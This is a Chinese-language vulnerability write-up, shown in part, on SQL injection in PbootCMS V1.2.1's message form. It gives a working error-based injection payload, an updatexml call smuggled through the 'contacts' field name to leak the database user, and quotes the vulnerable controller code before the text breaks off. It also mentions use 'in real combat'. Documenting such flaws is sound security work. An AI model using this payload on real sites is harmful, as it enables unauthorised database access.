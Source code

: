 # PbootCMS sql注入

### 0x01 前台home模块注入漏洞

0x01.1 在线留言处insert sql注入

0x01.1.2 漏洞演示

注：我本地测试的所以我把验证验证码那一步关闭了=-=，实战中请自己加上验证码

![](images/15892005195309.png)



```bash
url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Message/add
post:
    contacts[content`,`create_time`,`update_time`) VALUES ('1', '1' ,1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111
    content = 1111
    mobile = 1111
```

![](images/15892005433360.png)


**0x01.1.2 漏洞解读**

路径：PbootCMS-V1.2.1\apps\home\controller\MessageController.php

方法：add(


```php
// 留言新增
    public function add()
    {
        if ($_POST) {
            
            if (time() - session('lastsub') < 10) {
                alert_back('您提交太频繁了，请稍后再试！');
            }
            
            // 验证码验证
            $checkcode = post('checkcode');
            if ($this->config('message_check_code')) {
                // if (! $checkcode) {
                //     alert_back('验证码不能为空！');
                // }
                
                if ($checkcode != session('checkcode')) {
                    alert_back('验证码错误！');
                }
            }
            
            // 读取字段
            if (! $form = $this->model->getFormField(1)) {
                alert_back('留言表单不存在任何字段，请核对后重试！');
            }
            
            // 接收数据
            $mail_body = '';
            foreach ($form as $value) {
                $field_data = post($value->name);
                if (is_array($field_data)) { // 如果是多选等情况时转换
                    $field_data = implode(',', $field_data);
                }
```